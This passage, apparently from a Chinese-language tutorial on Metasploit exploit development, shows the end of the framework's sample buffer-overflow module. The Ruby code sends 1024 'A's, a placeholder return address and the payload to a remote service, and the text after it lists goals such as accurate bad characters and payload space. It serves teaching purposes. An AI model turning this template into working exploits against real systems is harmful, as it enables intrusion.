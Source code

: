 ```ruby
							'Ret'      => 0x41424344
						}
					],
				],
			'DefaultTarget' => 0))
	end

	#
	# The sample exploit just indicates that the remote host is always
	# vulnerable.
	#
	def check
		return Exploit::CheckCode::Vulnerable
	end

	#
	# The exploit method connects to the remote service and sends 1024 A's
	# followed by the fake return address and then the payload.
	#
	def exploit
		connect

		print_status("Sending #{payload.encoded.length} byte payload...")

		# Build the buffer for transmission
		buf  = "A" * 1024
		buf += [ target.ret ].pack('V')
		buf += payload.encoded

		# Send it off
		sock.put(buf)
		sock.get

		handler
	end

end

end
```
## Exploit开发目标（使用MSF的优势）

使用MSF开发exploits，开发目标可能有：

首先开发的exploits必须短小精干（minimalist）。
- 将大部分工作交给MSF
- 利用、依赖 Rex 协议库
- 尽可能的利用可获得的 mixins和plugins。

与精简指令同样重要，exploit必须可靠：
- 任何声明了的 BadChars 必须100%精确
- 确保 Payload的Space 是最大可靠值
- 在exploit开发中的众多小细节
